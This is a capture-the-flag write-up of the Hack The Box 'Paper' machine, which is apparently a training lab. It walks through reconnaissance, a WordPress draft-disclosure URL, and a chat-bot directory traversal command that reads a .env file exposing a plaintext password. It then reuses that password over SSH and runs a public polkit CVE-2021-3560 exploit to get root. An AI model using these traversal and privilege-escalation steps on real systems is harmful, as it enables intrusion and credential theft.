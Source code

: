 
Nmap shows 2 of the same webpages open and good 'ol SSH.

```console
└─$ nmap -A -p- -T4 -Pn 10.129.8.182 
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-21 12:23 CDT
Nmap scan report for 10.129.8.182
Host is up (0.065s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|   256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
|_  256 3178afd13bc42e9d604eeb5d03eca022 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.65 seconds
```

I enumerated and fuzzed alot of places but eventually I noticed burp had a request timeout when trying to send a request.

This was done after sending it to the repeater and sending it again.

Note: I had overlooked this the first time since doing before did not give me a request timeout.

```
HTTP/1.1 408 Request Timeout
Date: Fri, 21 Oct 2022 18:54:08 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Content-Length: 221
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>408 Request Timeout</title>
</head><body>
<h1>Request Timeout</h1>
<p>Server timeout waiting for the HTTP request from the client.</p>
</body></html>
```

So if take office.paper and put it in our hosts file we can go to a different subdomain.



Feroxbuster tells us that this webpage is running wordpress, wordpress happens to be vulnerable to alot of exploits so this is good news.

```
└─$ feroxbuster -u http://office.paper -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php,html,txt,git,pdf -q --dont-scan http://office.paper/manual 

200      GET      235l     1209w        0c http://office.paper/
301      GET        1l        0w        0c http://office.paper/index.php => http://office.paper/
403      GET        7l       20w      199c http://office.paper/.html
301      GET        7l       20w      239c http://office.paper/wp-content => http://office.paper/wp-content/
200      GET        0l        0w        0c http://office.paper/wp-content/index.php
301      GET        7l       20w      246c http://office.paper/wp-content/themes => http://office.paper/wp-content/themes/
301      GET        7l       20w      247c http://office.paper/wp-content/uploads => http://office.paper/wp-content/uploads/
200      GET        0l        0w        0c http://office.paper/wp-content/themes/index.php
403      GET        7l       20w      199c http://office.paper/wp-content/.html
301      GET        7l       20w      247c http://office.paper/wp-content/plugins => http://office.paper/wp-content/plugins/
301      GET        7l       20w      240c http://office.paper/wp-includes => http://office.paper/wp-includes/
301      GET        7l       20w      247c http://office.paper/wp-includes/images => http://office.paper/wp-includes/images/
200      GET        0l        0w        0c http://office.paper/wp-includes/category.php
500      GET        0l        0w        0c http://office.paper/wp-includes/media.php
200      GET        0l        0w        0c http://office.paper/wp-includes/feed.php
200      GET       74l      225w        0c http://office.paper/wp-login.php
200      GET        0l        0w        0c http://office.paper/wp-includes/version.php
301      GET        7l       20w      247c http://office.paper/wp-content/upgrade => http://office.paper/wp-content/upgrade/
301      GET        7l       20w      255c http://office.paper/wp-includes/images/smilies => http://office.paper/wp-includes/images/smilies/
200      GET        0l        0w        0c http://office.paper/wp-includes/template.php
301      GET        7l       20w      243c http://office.paper/wp-includes/js => http://office.paper/wp-includes/js/
200      GET        0l        0w        0c http://office.paper/wp-includes/cache.php
200      GET        0l        0w        0c http://office.paper/wp-includes/theme.php
```

If we look through the page code we can see what version the wordpress is.

```
<meta name="generator" content="WordPress 5.2.3" />
```

A google search actually pops up a few vulnerabilites for this version but this is the one we are after. Since this webpage hints at secrets.

https://vulners.com/zdt/1337DAY-ID-33546\









Afer inputting ```http://office.paper/?static=1``` as our Url we get back a page that reveals another subdomain!

```http://chat.office.paper/register/8qozr226AhkCHZdyY```



Navigating to this subdomain allows us to register for something...




After registering we get access to one of the greatest chat rooms of all time :)







It turns out this bot was vulnerable to directory traversal and after enumerating most of the files I stumbled on /hubot/.env that was holding a password.

```
recyclops file ../hubot/.env
```

```
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
```

If we try and ssh with it we get some luck and login as dwight!


```console
└─$ ssh dwight@paper.htb                     
dwight@paper.htb's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23

[dwight@paper ~]$ cat user.txt
e5c0****************************
```

## Root PE

This part took me awhile and I tried almost everything the latest build of linpeas gave me but polkit CVE-2021-3560 was not one of the CVE's that it detected.

However a couple of things stood out in linpeas such as it running polkit and dbus. Also the CVE is really quick to test out.

Using the secnigma exploit I was able to gain root.

https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation

It says to run it a couple of times to get it to work since this exploit is based on timing. Also the password is located in the README.md file of the exploit ```secnigmaftw```


```console
[dwight@paper tmp]$ ./poc.sh 

[!] Username set as : secnigma
[!] No Custom Timing specified.
[!] Timing will be detected Automatically
[!] Force flag not set.
[!] Vulnerability checking is ENABLED!
[!] Starting Vulnerability Checks...
[!] Checking distribution...
[!] Detected Linux distribution as "centos"
[!] Checking if Accountsservice and Gnome-Control-Center is installed
[+] Accounts service and Gnome-Control-Center Installation Found!!
[!] Checking if polkit version is vulnerable
[+] Polkit version appears to be vulnerable!!
[!] Starting exploit...
[!] Inserting Username secnigma...
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required
[+] Inserted Username secnigma  with UID 1005!
[!] Inserting password hash...
[!] It looks like the password insertion was succesful!
[!] Try to login as the injected user using su - secnigma
[!] When prompted for password, enter your password 
[!] If the username is inserted, but the login fails; try running the exploit again.
[!] If the login was succesful,simply enter 'sudo bash' and drop into a root shell!
[dwight@paper tmp]$ su - secnigma
Password: 
[secnigma@paper ~]$ id
uid=1005(secnigma) gid=1005(secnigma) groups=1005(secnigma),10(wheel)
[secnigma@paper ~]$ sudo bash
[sudo] password for secnigma:
```

Just like that we are root

```console
[root@paper secnigma]# id
uid=0(root) gid=0(root) groups=0(root)
[root@paper secnigma]# cat /root/root.txt
2cef****************************
```

I find it strange that linpeas did not catch this exploit unless something was changed in the latest version to not detect this. It would be interesting to see if anyone else had the same issues.

Other than that it was a fun machine!
